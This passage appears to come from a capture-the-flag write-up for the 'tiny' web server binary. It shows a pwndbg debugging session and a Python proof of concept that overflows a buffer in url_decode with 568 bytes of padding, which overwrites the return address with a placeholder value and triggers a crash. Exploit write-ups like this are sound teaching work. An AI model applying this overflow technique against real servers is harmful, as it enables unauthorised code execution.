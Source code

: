 Let's run tiny binary in gdb and set breakpoint right after url_decode() ret.
```sh
root@--name:/ctf/work# gdb -q tiny
Reading symbols from tiny...done.
pwndbg> set follow-fork-mode child
pwndbg> b *0x000000000040178b
Breakpoint 1 at 0x40178b: file tiny.c, line 268.
pwndbg> r
Starting program: /ctf/work/tiny 
warning: Error disabling address space randomization: Operation not permitted
listen on port 9999, fd is 3
```
Run this simple POC:

```python
root@--name:/ctf/work# cat padding.py 
import requests
import struct
import socket

padding = "A" * 568
RIP = 0x424242424242

payload = ""
payload += padding
payload += struct.pack("<Q", RIP)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("localhost", 9999))
s.send("GET /{} \n\n".format(payload))
s.close()
```

As soon as we hit a break point:
	
	 ► f 0           40178b url_decode+107
	   f 1           4018af parse_request+287
	   f 2           401e23 process.part+67
	   f 3     424242424242
	   f 4           400fa0 _start
	   f 5       10fd963730
	   f 6  100007f1ccf0002
	   f 7                0
	Breakpoint *0x000000000040178b
	pwndbg> c

	
We can se our 424242424242 on the stack, and continue:
	
	Program received signal SIGSEGV (fault address 0x424242424242)

And as expected:
![](/images/smasher/tiny_padding.png)
